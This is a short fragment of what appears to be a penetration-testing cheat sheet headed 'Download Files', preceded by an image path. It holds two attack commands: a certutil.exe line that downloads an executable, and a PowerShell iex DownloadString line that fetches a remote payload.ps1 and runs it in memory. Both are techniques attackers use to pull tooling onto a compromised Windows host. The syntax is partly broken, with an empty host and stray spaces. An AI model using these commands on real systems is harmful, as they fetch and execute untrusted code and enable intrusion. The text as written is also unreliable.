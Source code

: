 # Download Files

```
certutil.exe -urlcache -f http:///file.exe file.exe
```

```
iex (New-Object Net.WebClient).DownloadString (('https://webserver/payload. ps1')
```
